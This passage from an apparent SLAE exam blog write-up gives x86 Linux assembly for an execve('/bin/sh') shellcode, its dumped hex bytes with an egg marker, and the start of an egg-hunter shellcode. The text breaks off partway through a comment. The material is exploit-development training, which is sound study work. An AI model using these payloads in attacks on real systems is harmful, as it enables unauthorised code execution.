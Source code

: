 	;
	; system call prototype is: 
  ; int execve(const char *filename, char *const argv[], char *const envp[]);

	
	push 0x68732f2f		; pushing //bin/sh into the stack
	push 0x6e69622f		; the init double / is for alignment purpose

	mov ebx, esp		; pointer to *filename
	push eax		    ; pushing in the stack a pointer to NULL
	mov edx, esp		; I don't care about environment here
	push eax
	mov ecx, esp		; I don't even care about passing arguments to
				          ; my /bin/sh

	mov al, 0xb		; execve = 11
	int 0x80
{% endhighlight %}

After having compiled the assembler source file with compile.sh script shell, I
used scdump.sh script to dump the shellcode.

{%highlight sh%}
"\xef\xbe\xad\xde\xef\xbe\xad\xde\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"
{%endhighlight%}

This will be our default payload to be executed when the EGG it has been found
in memory. Now, let's have a look to our egg hunter implementation.

{% highlight assembly %}
; Filename: 	egghunter.nasm
; Author:	Paolo Perego <paolo@codiceinsicuro.it>  
; Website:  	https://codiceinsicuro.it
; Blog post:  	https://codiceinsicuro.it/slae/
; Twitter:   	@thesp0nge
; SLAE-ID:    	1217
; Purpose:	This is the first stage of our payload. An egg-hunter shellcode
;		looping through memory and jumping on the payload after the
;		second egg found in memory.

global _start			

section .text

_start:

	xor ecx, ecx
	mul ecx

next_page:
	or dx, 0xfff

next_addr:
	; EDX is 4096 here, that is the value of PAGE_SIZE constant
	inc edx

	; EBX is our memory cursor
	lea ebx, [edx+0x4]

	xor eax, eax

	; access is defined as #define __NR_acces 33 in 
	; /usr/include/i386-linux-gnu/asm/unistd_32.h:
	;
	; system call prototype is: 
	; int access(const char *pathname, int mode);

	mov al, 0x21
	int 0x80

	cmp al, 0xf2		; 0xf2 is the opcode for EFAULT. If my register